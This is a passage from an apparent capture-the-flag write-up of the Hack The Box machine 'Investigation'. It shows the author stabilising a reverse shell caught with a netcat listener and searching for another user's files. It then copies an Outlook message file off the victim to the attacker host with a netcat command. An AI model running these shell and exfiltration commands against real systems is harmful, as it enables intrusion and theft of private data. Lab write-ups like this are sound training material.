 ![shell](Wed-10-2024_11-53.png)

I then use the [python pty trick](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#spawn-tty-shell) to improve my reverse shell
```bash
www-data@investigation:~/uploads/1712775168$ python3 -c 'import pty;pty.spawn("bash")'
<12775168$ python3 -c 'import pty;pty.spawn("bash")'
www-data@investigation:~/uploads/1712775168$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                              
┌──(kali㉿Kali)──[11:54:43]──[~/htb/Machines/Investigation]
└─$ stty raw -echo; fg                       
[1]  + continued  nc -lvnp 9001
 
www-data@investigation:~/uploads/1712775168$ stty rows 70 cols 126
www-data@investigation:~/uploads/1712775168$ export TERM=xterm
www-data@investigation:~/uploads/1712775168$ 
```
# Log File > Shell as SMorton
I'm now on the box as `www-data`. The other user is `smorton`. I end up running `find / -user smorton 2>/dev/null` to see what smorton's been up to on the box. It returns an interesting file log-windedly named `Windows Event Logs for Analysis.msg` A `msg` file is a microsoft Outlook file that contains an email. Fortunately, I can read this file. I transfer the file back to my attack box using netcat.
```bash
# On the victim
www-data@investigation:~/uploads/1712775168$ nc 10.10.14.78 8001 < '/usr/local/investigation/Windows Event Logs for Analysis.msg'

# On my box
┌──(kali㉿Kali)──[12:03:46]──[~/htb/Machines/Investigation/LogFile]
└─$ nc -lvnp 8001 > 'log.msg'                            
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
```
Once it's on my box, I need to convert the `.msg` file in to a format I can read. I use the tool `msgconvert` contained in `libemail-outlook-message-perl` to convert it to a `.eml` file.
